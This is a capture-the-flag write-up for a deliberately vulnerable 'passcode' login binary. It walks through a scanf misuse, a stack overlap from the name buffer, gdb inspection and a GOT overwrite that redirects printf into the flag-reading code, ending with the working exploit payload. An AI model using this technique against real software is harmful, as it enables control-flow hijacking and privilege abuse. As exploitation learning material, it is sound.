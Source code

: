 So as usual first thing is I looked at the code supplied 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.1 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

I looked at the comment `// ha! mommy told me that 32bit is vulnerable to bruteforcing :)` and tried to make since of it since I already had the password.
I decided to ignore it and thought it was a red herring.

First thing I tried was to just run it with the inputs as given to me (I knew it wouldn't work but thought it would foolish to not try it)
```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : O
Welcome O!
enter passcode1 : 123456
enter passcode2 : 13371337
Segmentation fault (core dumped)
```

Next I tried to dig deeper into the code and understood that it was not writing the input to the address of passcode1 & passcode2 but addressed their values as memory addresses.
```c
        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

So now I wanted to see where I could edit them and maybe write the values that I want them to contain.
The only place I had an input was in the `welcome` function. It was also the obvious place since there was no way it was there for no reason.

I thought that maybe I could overwrite the passcodes using the `name` buffer in the `welcome` function. but I could only overwrite `passcode1` and `passcode2` was out of range.

| var       | addr       | distance from &name |
| --------- | ---------- | ------------------- |
| passcode1 | 0xff81d158 | 96                  |
| passcode2 | 0xff81d15c | 100                 |
| name      | 0xff81d0f8 | 0                   |

I wanted to see if I could really overwrite `passcode1` so I ran the program in gdb with `name` set to `b'A' * 100`

```bash
pwndbg> x/4x $ebp - 0x10
0xffd27788:     0x41414141      0xd008ff00      0x0804c000      0xffd27874
```


I knew that I could overwrite `passcode1`. Now the only question was what should I put in it?
At first I thought putting the address of `passcode2` but then I won't be able to edit `passcode1`.
Then I thought about editing the code to maybe skip the `cmp` so I tested if I could edit that memory chunk using GDB

```bash
 0x8049000  0x804a000 r-xp     1000   1000 passcode
```

I could only read and execute.

I thought about editing the return address but there were two problems with that:
1. I would have to ruin the stack canary and this would stop the program
2. the function did not return if the login failed, it would just run `exit(0)`.

I tested if all the bytes of name are overridden because I thought that maybe I could use name to make the passcodes somehow be equal to that.
I saw that after inputting all of the passcodes and right before the `cmp` I still had 4 bytes of the name untouched.

```bash
pwndbg> x/s 0xff949d68
0xff949d68:     "Hell"
```

But it is also noticeable that the address changed meaning it does not keep the same memory addresses each time so that was not a real option since I did not know in advance the addresses of the variables.
To validate this I ran the program again in GDB and searched for the address of name again.

| run | name address |
| --- | ------------ |
| #1  | 0xff81d0f8   |
| #2  | 0xff949d68   |
| #3  | 0xffdb7208   |

Now I was really stuck and had to figure out another way to know what to put in `passcode1`.
Since I was stuck I started building a mind map to work with a more organized chart of ideas.
You can view the map using [xmind](https://xmind.com) and view the map of this CTF -> [passcode](./Mind%20Maps/passcode.xmind). 
*I recommend viewing this map only if you are interested in the different ideas I had at this point.*

One of the ideas was to inject lines of code. To know if there was a way to do this I opened up pwngdb again and searched for the permissions of the code segment.
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File (set vmmap_prefer_relpaths on)
 0x8048000  0x8049000 r--p     1000      0 passcode
 0x8049000  0x804a000 r-xp     1000   1000 passcode
 0x804a000  0x804b000 r--p     1000   2000 passcode
 0x804b000  0x804c000 r--p     1000   2000 passcode
 0x804c000  0x804d000 rw-p     1000   3000 passcode
```
The last memory place is editable. I only had to see what this place points at.
but then I could see that it's not the code segment but it is actually the data segment so I went to see what global variables I had that might be saved in the data segment.

In the data segment there is something called the GOT (Global Offset Table). This contains the reference to the location of functions like `scanf`, `printf` and `fflush`. My idea was to change the reference table to point at the inner block of the if statement.

So first I will give `name` 96 chars of random placeholders and then `4 bytes` of the printf GOT reference addr. Then I can put a reference to the inner block of the if statement in the scanf of `passcode1`.
```bash
pwndbg> search "setregid"
Searching for byte: b'setregid'
passcode        0x8048364 'setregid'
libc.so.6       0xf7d2f7d6 'setregid'
```

| name                     | address   |
| ------------------------ | --------- |
| GOT printf reference     | 0x804c010 |
| Inner If statement block | 0x8048364 |

**Now all that was left to do was to build the payload and run!**

Getting decimal view of the addresses
```python
In [1]: int(0x804c010)
Out[1]: 134529040

In [2]: int(0x8048364)
Out[2]: 134513508
```

I had a problem with the payload that I was messing with for a few hours in total and I could not figure out why it wasn't getting the input to passcode1. passcode1 did have the correct address in it and it did point to the correct place but for some reason it was not accepting the input for the `printf` reference...

The payloads I have tried:
```bash
r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'\n' + b'\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\n\x64\x83\x04\x08\n')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08\n')")
```

results for all of the payloads above
```bash
pwndbg> x/x $ebp - 0x10
0xffefdd48:     0x0804c010
pwndbg> x/x 0x0804c010
0x804c010 <printf@got.plt>:     0xf7d91a90
```

Then after consulting with someone I know he told me that the second scanf is expecting a decimal and not a string that I am giving him. so I just needed to modify it to give the actuall decimal number and not bytes

New payload:
```bash
r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'134513508')")
```

so did again did not work. So after some debugging I remembered that I am jumping to `setregid` function 
```assembly
call setregid
```

this meant that I was not giving it the correct inputs so I opened the disassembly in gdb and found the correct address.

the address that I found was right before the `getegid` call and right after the `puts` call `0x804929e`

```python
In [1]: int(0x804929e)
Out[1]: 134517406
```

Final Run
```bash
passcode@ubuntu:~$ ./passcode < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'134517406')")
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
[flag🤫]
enter passcode1 : Now I can safely trust you that you have credential :)
```

This challenge was the most difficult challenge that I've done so far. It required paying attention to a lot of small specifics and also if you did not know about the GOT before that is an extra challenge to analyze the data segment on the fly. In conclusion this was a really fun challenge that I learned a lot from and recommend to anyone thinking about doing it to go ahead and just dive in.